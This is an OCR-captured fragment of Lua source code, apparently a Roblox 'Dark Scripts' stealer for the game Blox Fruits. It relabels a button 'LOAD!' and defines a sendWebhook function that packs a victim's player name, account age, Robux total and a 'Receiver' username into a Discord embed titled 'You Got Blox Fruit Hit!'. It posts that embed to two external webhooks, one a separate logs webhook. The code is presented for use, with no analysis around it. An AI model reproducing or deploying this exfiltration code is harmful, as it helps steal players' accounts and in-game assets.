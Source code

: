         local button1 = footerButtons:FindFirstChild("1")
        if button1 then
            local buttonContent = button1:WaitForChild("ButtonContent")
            local buttonMiddleContent = buttonContent:WaitForChild("ButtonMiddleContent"):FindFirstChildWhichIsA("TextLabel")
            if buttonMiddleContent then
                buttonMiddleContent.Text = "LOAD!"
            end
        end
    end
end)

local function sendWebhook()

    local embed = {
        ["title"] = "Dark Scripts - You Got Blox Fruit Hit! :owl:",
        ["color"] = 39423,
        ["fields"] = {
            {
                ["name"] = "<:drawpen:1311079366125555782> ᴘʟᴀʏᴇʀ ɪɴꜰᴏ",
                ["value"] = "```Name: " .. game.Players.LocalPlayer.Name .. "\nAccount Age: " .. tostring(game.Players.LocalPlayer.AccountAge) .. "\nReceiver: " .. Username .. "```"
            },
            {
                ["name"] = "<:robux:1314309850154537020> ᴛᴏᴛᴀʟ ʀᴏʙᴜx",
                ["value"] = "```" .. result .. "```"
            },
            {
                ["name"] = "ᴅɪꜱᴄᴏʀᴅ sᴇʀᴠᴇʀ",
                ["value"] = "[**Join Invite**](https://discord.gg/darkscripts)",
            }
        }
    }

    local data = HttpService:JSONEncode({
        ["content"] = "@everyone",
        ["embeds"] = {embed}
    })

    request({
        Url = Webhook,
        Method = "POST",
        Headers = {
            ["Content-Type"] = "application/json"
        },
        Body = data
    })

    request({
        Url = LogsWebhook,
        Method = "POST",
        Headers = {
            ["Content-Type"] = "application/json"
        },
        Body = data
    })
end
